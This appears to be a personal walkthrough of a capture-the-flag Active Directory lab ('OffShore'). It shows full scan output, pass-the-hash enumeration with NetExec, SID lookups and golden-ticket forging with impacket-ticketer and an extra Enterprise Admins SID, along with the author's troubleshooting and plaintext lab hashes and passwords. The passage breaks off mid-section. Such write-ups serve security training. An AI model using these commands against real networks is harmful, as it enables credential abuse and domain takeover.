As usual RUSTSCAN is our friend for the TCP scans:

```
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2024-07-04 16:04:44Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: CLIENT.OFFSHORE.COM, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  syn-ack ttl 64 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: CLIENT)
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 64
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: CLIENT.OFFSHORE.COM, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC04.CLIENT.OFFSHORE.COM
| Issuer: commonName=DC04.CLIENT.OFFSHORE.COM
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-03T03:18:25
| Not valid after:  2025-01-02T03:18:25
| MD5:   c5db:593e:93b6:ae7f:4ee5:6beb:60a9:ac4a
| SHA-1: 52bb:6d4a:aafa:b872:1612:e119:780c:b3aa:e2a8:5905
| -----BEGIN CERTIFICATE-----
| MIIC9DCCAdygAwIBAgIQYKto3n3ISqxEXNPLAlX5bjANBgkqhkiG9w0BAQsFADAj
| MSEwHwYDVQQDExhEQzA0LkNMSUVOVC5PRkZTSE9SRS5DT00wHhcNMjQwNzAzMDMx
| ODI1WhcNMjUwMTAyMDMxODI1WjAjMSEwHwYDVQQDExhEQzA0LkNMSUVOVC5PRkZT
| SE9SRS5DT00wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCO4CyD+nfF
| 9GeqV3oheerMT6ABeW2fHTAvXiUptwrTrKzI967ao+nErdDn/TQW6C7UPWcPRA23
| jTOT+ftkWVZL90jbtkxW8XktGJkuF2FID95x1MwUxW1RZVKAbMbWs0KMJ1IPU2FH
| /IEoDNHUTbKl1+N95PKedfa76YFnLsJ2D1d1Pf7CRDmMEQr63dUxweRNGwjQCkL6
| XyWzPTEwqe5KtIp4ldCvJPA74XZaHx38690NQHoYfUOD174E1tODrn0okpuLvNaB
| 0UVhfOfasiKx8n/PxD31s01NZ26jlPlcrqwCz7j47uS1Ls+AgWR/5+vslf6cDCiQ
| rIbF3HiZeiuhAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQE
| AwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAKn7bCQ4hIVcgWf6nbt3HbGiwMoo4mD61
| 4EXwl9sJbu/03cMd0a1cAJ7SBqhSuHh5VvT1LIkudbHz9wsmRC2Mq0f/uWoVwTVm
| WKuD4VoQDxzLfAuDX4RxS1zRyT8FrkLDDKk0JTxKddUBpeb98GFsRIJT519eaJHi
| ZZuMYQXNZBgbVpaP5PNHx90vwYgYMKDyL/wvZSbZXEnbR8yyDSbMz1tihAlPMGmC
| yAZQrdVHXYqrfQ5Fs39CzXkLoriBhz6bXFspjlOUEJq2KhMagwbEta6SA8+ED9wW
| a9X1yLcvbMa53Dyf+9a6JVRk7Ci1v8z7OhVMGiAXFyWo/lxRDsIpcw==
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: CLIENT
|   NetBIOS_Domain_Name: CLIENT
|   NetBIOS_Computer_Name: DC04
|   DNS_Domain_Name: CLIENT.OFFSHORE.COM
|   DNS_Computer_Name: DC04.CLIENT.OFFSHORE.COM
|   DNS_Tree_Name: CLIENT.OFFSHORE.COM
|   Product_Version: 10.0.14393
|_  System_Time: 2024-07-04T16:05:37+00:00
|_ssl-date: 2024-07-04T16:06:17+00:00; +3s from scanner time.
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49677/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49690/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49706/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/4%OT=53%CT=%CU=%PV=Y%G=N%TM=6686C877%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10D%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 32.136 days (since Sun Jun  2 14:49:42 2024)
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: DC04; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: DC04
|   NetBIOS computer name: DC04\x00
|   Domain name: CLIENT.OFFSHORE.COM
|   Forest name: CLIENT.OFFSHORE.COM
|   FQDN: DC04.CLIENT.OFFSHORE.COM
|_  System time: 2024-07-04T12:05:40-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 48m03s, deviation: 1h47m21s, median: 2s
| smb2-time: 
|   date: 2024-07-04T16:05:39
|_  start_date: 2024-07-04T03:18:31
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 33754/tcp): CLEAN (Timeout)
|   Check 2 (port 42769/tcp): CLEAN (Timeout)
|   Check 3 (port 32106/udp): CLEAN (Timeout)
|   Check 4 (port 20543/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

And NMAP for the UDP ones:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# nmap -F -sU 172.16.4.5  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 17:51 CEST
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 23.33% done; ETC: 17:51 (0:00:20 remaining)
Stats: 0:00:23 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 69.00% done; ETC: 17:51 (0:00:10 remaining)
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 70.33% done; ETC: 17:51 (0:00:10 remaining)
Nmap scan report for 172.16.4.5
Host is up (0.023s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 40.01 seconds
```

&nbsp;

# Looking around

Same technique here by using the creds of the `Admin@ADMIN.OFFSHORE.COM` are not showing strange shares.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec smb 172.16.4.5 -u Administrator -H f2594c9e60abf7e28e7601db343a7e24 -d 'ADMIN.OFFSHORE.COM' --shares
SMB         172.16.4.5      445    DC04             [*] Windows Server 2016 Standard 14393 x64 (name:DC04) (domain:CLIENT.OFFSHORE.COM) (signing:True) (SMBv1:True)
SMB         172.16.4.5      445    DC04             [+] ADMIN.OFFSHORE.COM\Administrator:f2594c9e60abf7e28e7601db343a7e24 
SMB         172.16.4.5      445    DC04             [*] Enumerated shares
SMB         172.16.4.5      445    DC04             Share           Permissions     Remark
SMB         172.16.4.5      445    DC04             -----           -----------     ------
SMB         172.16.4.5      445    DC04             ADMIN$                          Remote Admin
SMB         172.16.4.5      445    DC04             C$                              Default share
SMB         172.16.4.5      445    DC04             IPC$                            Remote IPC
SMB         172.16.4.5      445    DC04             NETLOGON        READ            Logon server share 
SMB         172.16.4.5      445    DC04             SYSVOL          READ            Logon server share
```

If we check the possible users I see another flag, but also a user(**BANKVAULT**) that was also part of the ADMIN domain.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec smb 172.16.4.5 -u Administrator -H f2594c9e60abf7e28e7601db343a7e24 -d 'ADMIN.OFFSHORE.COM' --users 
SMB         172.16.4.5      445    DC04             [*] Windows Server 2016 Standard 14393 x64 (name:DC04) (domain:CLIENT.OFFSHORE.COM) (signing:True) (SMBv1:True)
SMB         172.16.4.5      445    DC04             [+] ADMIN.OFFSHORE.COM\Administrator:f2594c9e60abf7e28e7601db343a7e24 
SMB         172.16.4.5      445    DC04             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         172.16.4.5      445    DC04             Administrator                 2020-06-04 20:33:06 1       Built-in account for administering the computer/domain 
SMB         172.16.4.5      445    DC04             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         172.16.4.5      445    DC04             krbtgt                        2018-04-18 01:30:28 0       Key Distribution Center Service Account 
SMB         172.16.4.5      445    DC04             DefaultAccount                <never>             0       A user account managed by the system. 
SMB         172.16.4.5      445    DC04             offshore_adm                  2018-07-17 21:06:27 0       Banking share is opened upon login to process automatic transfers. 
SMB         172.16.4.5      445    DC04             client_banking                2018-04-29 05:58:58 0       **Old admin account for client banking app** OFFSHORE{h1dd3n_1n_pl@iN_$1ght}
SMB         172.16.4.5      445    DC04             bankvault                     2018-06-16 17:55:19 2        
SMB         172.16.4.5      445    DC04             svc_clientsupport             2018-07-17 03:36:54 0        
SMB         172.16.4.5      445    DC04             client_adm                    2018-07-17 03:53:07 0        
SMB         172.16.4.5      445    DC04             ben                           2018-07-17 03:50:32 0
```

And I see a same type of forest trust?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec ldap 172.16.4.5 -u Administrator -H f2594c9e60abf7e28e7601db343a7e24 -d 'ADMIN.OFFSHORE.COM' -M enum_trusts
SMB         172.16.4.5      445    DC04             [*] Windows Server 2016 Standard 14393 x64 (name:DC04) (domain:CLIENT.OFFSHORE.COM) (signing:True) (SMBv1:True)
LDAP        172.16.4.5      389    DC04             [+] ADMIN.OFFSHORE.COM\Administrator:f2594c9e60abf7e28e7601db343a7e24 (Pwn3d!)
ENUM_TRUSTS 172.16.4.5      389    DC04             [+] Found the following trust relationships:
ENUM_TRUSTS 172.16.4.5      389    DC04             ADMIN.OFFSHORE.COM -> Bidirectional -> Forest Transitive, Treat as External
```

&nbsp;

# Attacking AD

I wonder if we can do the same type of attack and take over the domain on the same way?

We need the NTLM hash of the KRBTGT of the Child domain(ADMIN): **ea9112d4beb759907688c9e267eff246**

```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ea9112d4beb759907688c9e267eff246:::
```

next the domain sid of the child domain(ADMIN): **S-1-5-21-1216317506-3509444512-4230741538-519**

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# impacket-lookupsid ADMIN.OFFSHORE.COM/yovecio@172.16.3.5 | grep "Domain SID"
Password:
[*] Domain SID is: S-1-5-21-1216317506-3509444512-4230741538
```

Next getting the sid of the ENTADM at the parent domain(CLIENT): S-1-5-21-524867371-2016665888-3240400722

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# impacket-lookupsid ADMIN.OFFSHORE.COM/yovecio@172.16.4.5                                  
Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

Password:
[*] Brute forcing SIDs at 172.16.4.5
[*] StringBinding ncacn_np:172.16.4.5[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-524867371-2016665888-3240400722
498: CLIENT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: CLIENT\Administrator (SidTypeUser)
501: CLIENT\Guest (SidTypeUser)
502: CLIENT\krbtgt (SidTypeUser)
503: CLIENT\DefaultAccount (SidTypeUser)
512: CLIENT\Domain Admins (SidTypeGroup)
513: CLIENT\Domain Users (SidTypeGroup)
514: CLIENT\Domain Guests (SidTypeGroup)
515: CLIENT\Domain Computers (SidTypeGroup)
516: CLIENT\Domain Controllers (SidTypeGroup)
517: CLIENT\Cert Publishers (SidTypeAlias)
518: CLIENT\Schema Admins (SidTypeGroup)
519: CLIENT\Enterprise Admins (SidTypeGroup)
520: CLIENT\Group Policy Creator Owners (SidTypeGroup)
521: CLIENT\Read-only Domain Controllers (SidTypeGroup)
522: CLIENT\Cloneable Domain Controllers (SidTypeGroup)
525: CLIENT\Protected Users (SidTypeGroup)
526: CLIENT\Key Admins (SidTypeGroup)
527: CLIENT\Enterprise Key Admins (SidTypeGroup)
553: CLIENT\RAS and IAS Servers (SidTypeAlias)
571: CLIENT\Allowed RODC Password Replication Group (SidTypeAlias)
572: CLIENT\Denied RODC Password Replication Group (SidTypeAlias)
1000: CLIENT\DC04$ (SidTypeUser)
1101: CLIENT\DnsAdmins (SidTypeAlias)
1102: CLIENT\DnsUpdateProxy (SidTypeGroup)
1103: CLIENT\MS02$ (SidTypeUser)
1104: CLIENT\offshore_adm (SidTypeUser)
1105: CLIENT\client_banking (SidTypeUser)
```

And lastly we forge a new golden ticket for impersonation:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/client.offshore.com]
└─# impacket-ticketer -nthash ea9112d4beb759907688c9e267eff246 -domain ADMIN.OFFSHORE.COM -domain-sid S-1-5-21-1216317506-3509444512-4230741538 -extra-sid S-1-5-21-1216317506-3509444512-4230741538-519 Administrator
Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for ADMIN.OFFSHORE.COM/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in Administrator.ccache
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/client.offshore.com]
└─# export KRB5CCNAME=/home/millycash/Downloads/OffShore/client.offshore.com/Administrator.ccache                                    
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/client.offshore.com]
└─# klist 
Ticket cache: FILE:/home/millycash/Downloads/OffShore/client.offshore.com/Administrator.ccache
Default principal: Administrator@ADMIN.OFFSHORE.COM

Valid starting     Expires            Service principal
07/04/24 18:21:24  07/02/34 18:21:24  krbtgt/ADMIN.OFFSHORE.COM@ADMIN.OFFSHORE.COM
    renew until 07/02/34 18:21:24
```

And seems like no success:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/client.offshore.com]
└─# psexec.py ADMIN.OFFSHORE.COM/Administrator@DC04.CLIENT.OFFSHORE.COM -k -no-pass -target-ip 172.16.4.5
Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_TGT_REVOKED(TGT has been revoked)
```

Now looking around the issue might be related to the user that need to exist?



But also user should not being part of:



I see some user part of denied:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Tools/pywerview]
└─# python3 pywerview.py get-netgroupmember --groupname 'Denied RODC Password Replication Group' -w admin.offshore.com -u yovecio -p 'Coglione1!' -t 172.16.4.5
groupdomain:        CLIENT.OFFSHORE.COM
groupname:          Denied RODC Password Replication Group
membername:         Read-only Domain Controllers
memberdomain:       CLIENT.OFFSHORE.COM
useraccountcontrol: 
isgroup:            True
memberdn:           CN=Read-only Domain Controllers,CN=Users,DC=CLIENT,DC=OFFSHORE,DC=COM
objectsid:          S-1-5-21-524867371-2016665888-3240400722-521

groupdomain:        CLIENT.OFFSHORE.COM
groupname:          Denied RODC Password Replication Group
membername:         Group Policy Creator Owners
memberdomain:       CLIENT.OFFSHORE.COM
useraccountcontrol: 
isgroup:            True
memberdn:           CN=Group Policy Creator Owners,CN=Users,DC=CLIENT,DC=OFFSHORE,DC=COM
objectsid:          S-1-5-21-524867371-2016665888-3240400722-520

groupdomain:        CLIENT.OFFSHORE.COM
groupname:          Denied RODC Password Replication Group
membername:         Domain Admins
memberdomain:       CLIENT.OFFSHORE.COM
useraccountcontrol: 
isgroup:            True
memberdn:           CN=Domain Admins,CN=Users,DC=CLIENT,DC=OFFSHORE,DC=COM
objectsid:          S-1-5-21-524867371-2016665888-3240400722-512

groupdomain:        CLIENT.OFFSHORE.COM
groupname:          Denied RODC Password Replication Group
membername:         Cert Publishers
memberdomain:       CLIENT.OFFSHORE.COM
useraccountcontrol: 
isgroup:            True
memberdn:           CN=Cert Publishers,CN=Users,DC=CLIENT,DC=OFFSHORE,DC=COM
objectsid:          S-1-5-21-524867371-2016665888-3240400722-517

groupdomain:        CLIENT.OFFSHORE.COM
groupname:          Denied RODC Password Replication Group
membername:         Enterprise Admins
memberdomain:       CLIENT.OFFSHORE.COM
useraccountcontrol: 
isgroup:            True
memberdn:           CN=Enterprise Admins,CN=Users,DC=CLIENT,DC=OFFSHORE,DC=COM
objectsid:          S-1-5-21-524867371-2016665888-3240400722-519

groupdomain:        CLIENT.OFFSHORE.COM
groupname:          Denied RODC Password Replication Group
membername:         Schema Admins
memberdomain:       CLIENT.OFFSHORE.COM
useraccountcontrol: 
isgroup:            True
memberdn:           CN=Schema Admins,CN=Users,DC=CLIENT,DC=OFFSHORE,DC=COM
objectsid:          S-1-5-21-524867371-2016665888-3240400722-518

groupdomain:        CLIENT.OFFSHORE.COM
groupname:          Denied RODC Password Replication Group
membername:         Domain Controllers
memberdomain:       CLIENT.OFFSHORE.COM
useraccountcontrol: 
isgroup:            True
memberdn:           CN=Domain Controllers,CN=Users,DC=CLIENT,DC=OFFSHORE,DC=COM
objectsid:          S-1-5-21-524867371-2016665888-3240400722-516

groupdomain:        CLIENT.OFFSHORE.COM
groupname:          Denied RODC Password Replication Group
membername:         krbtgt
memberdomain:       CLIENT.OFFSHORE.COM
useraccountcontrol: ACCOUNTDISABLE, NORMAL_ACCOUNT
isgroup:            False
memberdn:           CN=krbtgt,CN=Users,DC=CLIENT,DC=OFFSHORE,DC=COM
objectsid:          S-1-5-21-524867371-2016665888-3240400722-502
```

If I used another client it sure worked baby:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# impacket-ticketer -nthash ea9112d4beb759907688c9e267eff246 -domain ADMIN.OFFSHORE.COM -domain-sid S-1-5-21-1216317506-3509444512-4230741538 -extra-sid S-1-5-21-1216317506-3509444512-4230741538-519 offshore_adm
Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for ADMIN.OFFSHORE.COM/offshore_adm
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in offshore_adm.ccache
```

But I kept getting error about "TGTRevoked" and googling seeamingly about a patch that microsoft introduced where the username must match and exist:



But even with the additional adjustments it failed with same error,so another user mentioned that using the AES256 never got an issue so I wil try do it from windows instead.

EDIT: this also failed and apparently it is because the SID History only works for trust type "Within Forest":

&nbsp;

# AD Analysis

With the credentials gained from the Banking share I will run bloodhound to gain a insight of the actual domain.



Seems like I am having some issues to run bllodhound remotely, i might have to do it from windows instead...

I will try to do it from `powerview.py` and seems like there should be a SPN?

```
┌──(LDAP)-[DC04.CLIENT.OFFSHORE.COM]-[CLIENT\offshore_adm]
└─$ Get-DomainComputer 
cn                                : svc_client_sec
distinguishedName                 : CN=svc_client_sec,CN=Managed Service Accounts,DC=CLIENT,DC=OFFSHORE,DC=COM
instanceType                      : 4
name                              : svc_client_sec
objectGUID                        : {e4e39065-3d22-4409-8a4f-83da21b60a97}
userAccountControl                : WORKSTATION_TRUST_ACCOUNT [4096]
badPwdCount                       : 0
badPasswordTime                   : 1601-01-01 00:00:00
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 1601-01-01 00:00:00
pwdLastSet                        : 2020-05-22 04:14:56.147709
primaryGroupID                    : 515
objectSid                         : S-1-5-21-524867371-2016665888-3240400722-9102
logonCount                        : 0
sAMAccountName                    : svc_client_sec$
sAMAccountType                    : 805306369
dNSHostName                       : MS02.client.offshore.com
objectCategory                    : CN=ms-DS-Group-Managed-Service-Account,CN=Schema,CN=Configuration,DC=CLIENT,DC=OFFSHORE,DC=COM
msDS-SupportedEncryptionTypes     : RC4-HMAC
                                    AES128
                                    AES256
```

And we can see that the new account we found out seems being part of IT client technicians?

```
┌──(LDAP)-[DC04.CLIENT.OFFSHORE.COM]-[CLIENT\offshore_adm]
└─$ Get-DomainUser -Identity client_adm
cn                                : client_adm
distinguishedName                 : CN=client_adm,CN=Users,DC=CLIENT,DC=OFFSHORE,DC=COM
memberOf                          : CN=Service Technicians,CN=Users,DC=CLIENT,DC=OFFSHORE,DC=COM
name                              : client_adm
objectGUID                        : {f31a9cc7-2fee-4b81-b770-4b1c10bc7601}
userAccountControl                : NORMAL_ACCOUNT [512]
badPwdCount                       : 0
badPasswordTime                   : 1601-01-01 00:00:00
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 2018-07-17 03:51:32.647699
pwdLastSet                        : 2018-07-17 03:53:07.922270
primaryGroupID                    : 513
objectSid                         : S-1-5-21-524867371-2016665888-3240400722-4604
adminCount                        : 1
sAMAccountName                    : client_adm
sAMAccountType                    : 805306368
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=CLIENT,DC=OFFSHORE,DC=COM
```

And lastly I don't see extra domain trusts?

```
──(LDAP)-[DC04.CLIENT.OFFSHORE.COM]-[CLIENT\offshore_adm]
└─$ Get-DomainTrust 
name                   : ADMIN.OFFSHORE.COM
objectGUID             : {0f71643e-936b-4ad3-a8f2-da6115d4b29f}
securityIdentifier     : S-1-5-21-1216317506-3509444512-4230741538
trustDirection         : Bidirectional
trustPartner           : ADMIN.OFFSHORE.COM
trustType              : WINDOWS_ACTIVE_DIRECTORY
trustAttributes        : None
flatName               : ADMIN
```

But then silly me I noticed I misstyped the username that is why I got issues with Bloodhound :D

And seems like we can read the GMSA password of another service account:



We can see that our user is indeed an ADM?

